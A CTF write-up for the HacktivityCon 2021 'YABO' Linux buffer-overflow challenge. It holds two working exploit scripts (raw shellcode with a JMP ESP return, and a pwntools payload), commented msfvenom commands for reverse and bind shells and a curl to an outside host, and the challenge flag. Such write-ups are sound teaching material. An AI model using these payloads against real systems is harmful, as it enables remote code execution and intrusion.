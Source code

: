 ```yaml
---
name: YABO - Yet Another Buffer Overflow (2021)
event: HacktivityCon CTF 2021
category: Pwn
description: Writeup for YABO - Yet Another Buffer Overflow (pwn) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# YABO - Yet Another Buffer Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=3195s "HacktivityCon 2021: YABO - Yet Another Buffer Overflow")

## Challenge Description

> Some certifications feature a basic windows buffer overflow. Is the linux version really that different?

## Solution

#### msfvenom_payload.py

{% code overflow="wrap" %}
```py
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 9999))

print(client.recv(1024))

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b '\x00' -f python
# msfvenom -p linux/x86/exec CMD="curl https://en4i3omt29wvgco.m.pipedream.net" -b '\x00' -f python
# msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
# msfvenom -p linux/x86/read_file PATH=flag.txt FD=4 -b '\x00' -f python

# FD = 4
buf = b"A" * 1044
buf += b"\xe2\x92\x04\x08"  # ropper found JMP ESP
buf += b"\x90" * 10
buf += b"\xd9\xec\xd9\x74\x24\xf4\x5a\x31\xc9\xbe\x8b\x25\xd9"
buf += b"\x0b\xb1\x12\x83\xc2\x04\x31\x72\x15\x03\x72\x15\x69"
buf += b"\xd0\x32\x3d\xd5\x1e\xc5\x42\x25\x7a\xf4\x8b\xe8\xfc"
buf += b"\x7f\xc8\x4a\xff\x7f\xcf\xaa\x89\x67\x46\x53\x33\x67"
buf += b"\x49\xa3\x44\xa5\xe9\x2a\x86\x8d\xee\x2c\x07\xee\x55"
buf += b"\x28\x07\xee\xa9\xfd\x87\x56\xa8\xfd\x87\xa6\x10\xfd"
buf += b"\x87\xa6\x66\x30\x07\x4e\xa3\x35\xf7\x70\x4a\xa5\x69"
buf += b"\xe8\xbd\x41\x12\x82\xc1"

client.send(buf)
print(client.recv(1024))
client.close()
```
{% endcode %}

#### pwntools_exploit.py

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './yabo'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 1044

jmp_esp = 0x80492e2

# Start program
io = start()

# Build the payload
payload = flat([
    asm('nop') * offset,
    jmp_esp,
    asm(shellcraft.cat('flag.txt', fd=4))
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{2f20f16416a066ca5d4247a438403f21}`

